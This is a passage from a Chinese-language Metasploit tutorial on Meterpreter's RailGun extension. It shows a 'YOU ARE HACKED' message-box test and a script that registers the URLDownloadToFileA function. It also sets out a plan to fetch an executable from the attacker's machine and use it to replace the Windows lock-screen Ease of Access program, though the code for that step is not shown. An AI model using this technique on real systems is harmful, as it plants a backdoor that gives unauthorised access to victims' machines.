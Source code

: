 ![Screen Shot 2018-10-23 at 8.33.50 PM.png]({{ site.url }}/images/metasploit/6F4AFEEC73E367DEA7F4181C31DFCF01.png)

弹窗测试：

```
railgun.user32.MessageBoxA(0, "YOU ARE HACKED!!!", "Alarm", nil)
```

![Screen Shot 2018-10-23 at 8.39.20 PM.png]({{ site.url }}/images/metasploit/040DF785F0D4CE2E3DF9B43A538329AD.png)

为了更顺利地使用RailGun，我们必须明确哪个DLL包含了哪个方法。

### 构建复杂RailGun脚本

本节实现以下脚本：

1. my_urlmon.rb 目的是向目标系统中的`urlmon.dll`添加函数`URLDownloadToFileA`
2. my_railgun_demo.rb 目的是调用前面添加的下载函数，从攻击者机器上下载一个文件管理器`a43.exe`，并用它替换掉Windows锁屏界面上的“轻松访问”按钮对应程序

首先是添加函数的脚本：

```ruby
# my_urlmon.rb
if client.railgun.get_dll('urlmon') == nil
    print_status("Adding Function")
end
client.railgun.add_dll('urlmon', 'C:\\WINDOWS\\system32\\urlmon.dll')
client.railgun.add_function('urlmon', 'URLDownloadToFileA', 'DWORD', [
['DWORD', 'pcaller', 'in'],
['PCHAR', 'szURL', 'in'],
['PCHAR', 'szFileName', 'in'],
['DWORD', 'Reserved', 'in'],
['DWORD', 'lpfnCB', 'in'],
])
```

参考[Method: Rex::Post::Meterpreter::Extensions::Stdapi::Railgun::Railgun](https://www.rubydoc.info/github/rapid7/metasploit-framework/Rex/Post/Meterpreter/Extensions/Stdapi/Railgun/Railgun)：

```c
/* Attempts to provide a DLL instance of the given name. 
 * Handles lazy loading and caching. 
 * Note that if a DLL of the given name does not exist, returns nil. */
get_dll(dll_name)

/* Adds a DLL to this Railgun.
 * The windows_name is the name used on the remote 
 * system and should be set appropriately if you want to 
 * include a path or the DLL name contains non-ruby-approved characters.
 * Raises an exception if a dll with the given name has already been defined. */
add_dll(dll_name, windows_name = dll_name)

/* Adds a function to an existing DLL definition.
 * If the DLL definition is frozen (ideally this 
 * should be the case for all cached dlls) an unfrozen copy is 
 * created and used henceforth for this instance. */
add_function(dll_name, function_name, return_type, params, windows_name = nil, calling_conv = "stdcall")
```
